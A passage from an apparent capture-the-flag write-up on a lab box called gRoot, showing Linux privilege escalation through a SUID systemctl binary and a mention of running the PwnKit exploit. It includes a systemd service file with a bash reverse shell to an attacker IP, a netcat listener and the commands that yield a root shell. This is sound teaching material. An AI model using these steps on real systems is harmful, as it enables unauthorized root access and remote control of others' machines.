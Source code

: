 The permissions on **/bin/systemctl** show us that the SUID bit is set:

`ls -al /bin/systemctl`

```
-rwsr-xr-x 1 root root 663944 Apr  2  2021 /bin/systemctl
```

I find a post online that explains how you can create a service which will connect back to your home machine and since systemctl starts the service as root you get a root shell.

I create the following file: **/tmp/test.service**

```
[Unit]
Description=privilege escalation using SUID systemctl

[Service]  
Type=simple
User=root  
ExecStart=/bin/bash -c 'bash -i >& /dev/tcp/10.50.130.229/4444 0>&1'

[Install]
WantedBy=multi-user.target
```

Note: you'll need to change the IP address under ExecStart to your own systems IP.

I start a netcat listener up on my system with `nc -nvlp 4444`:

```
listening on [any] 4444 ...
```

I then enable the service with the following command:

`/bin/systemctl enable /tmp/test.service`

```
Created symlink from /etc/systemd/system/multi-user.target.wants/test.service to /tmp/test.service.
Created symlink from /etc/systemd/system/test.service to /tmp/test.service.
```

And then I start the service which connects back to our system and gives us a root shell:

`/bin/systemctl start test`

![](gRoot/groot12.png)

---

### #6 - CVE-2021-4034 (AKA PwnKit)

I downloaded a copy of PwnKit from github to my ESA machine and compiled it, then transferred it over to the gRoot box and made it executable. When running the exploit you immediately get root:

![](gRoot/groot13.png)

<br>

## Conclusion

There were many many ways to escalate privileges to root on this system and I had a lot of fun going through and finding as many as I could. I'm sure there are additional methods so go see if you can find any not listed here!